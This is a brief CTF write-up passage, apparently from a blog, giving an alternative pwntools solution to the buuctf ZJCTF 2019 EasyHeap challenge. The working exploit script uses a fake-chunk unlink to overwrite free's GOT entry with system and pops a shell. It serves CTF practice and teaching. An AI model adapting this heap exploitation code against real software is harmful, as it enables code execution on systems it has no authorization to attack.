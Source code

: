 还有一种做法：[buuctf [ZJCTF 2019]EasyHeap_R1nd0的博客-CSDN博客](https://blog.csdn.net/weixin_45677731/article/details/108204244)

```python
from pwn import *
sh=process("./easyheap")
elf=ELF("./easyheap")
free_got=elf.got['free']
system_plt=elf.plt['system']
context.log_level='debug'
ptr=0x6020e8
def add(size,content):
    sh.recvuntil("Your choice :")
    sh.sendline('1')
    sh.recvuntil("Size of Heap : ")
    sh.sendline(str(size))
    sh.recvuntil("Content of heap:")
    sh.sendline(content)

def edit(idx, size, content):
    sh.recvuntil("Your choice :")
    sh.sendline('2')
    sh.recvuntil("Index :")
    sh.sendline(str(idx))
    sh.recvuntil("Size of Heap : ")
    sh.sendline(str(size))
    sh.recvuntil("Content of heap : ")
    sh.sendline(content)

def delete(idx):
    sh.recvuntil("Your choice :")
    sh.sendline('3')
    sh.recvuntil("Index :")
    sh.sendline(str(idx))


add(0x100,'aaaa')
add(0x20,'bbbb')
add(0x80,'cccc')

payload=p64(0)+p64(0x21)+p64(ptr-0x18)+p64(ptr-0x10)
payload+=p64(0x20)+p64(0x90)
edit(1,len(payload),payload)

delete(2)	#heaparray's chunk#1_ptr changed
#gdb.attach(sh)
#pause()
payload=p64(0)+p64(0)+p64(free_got)
payload+=p64(ptr-0x18)+p64(ptr+0x10)+"/bin/sh"
#fake_chunk in bss
edit(1,len(payload),payload)
edit(0,8,p64(system_plt))
delete(2)
sh.interactive()

```

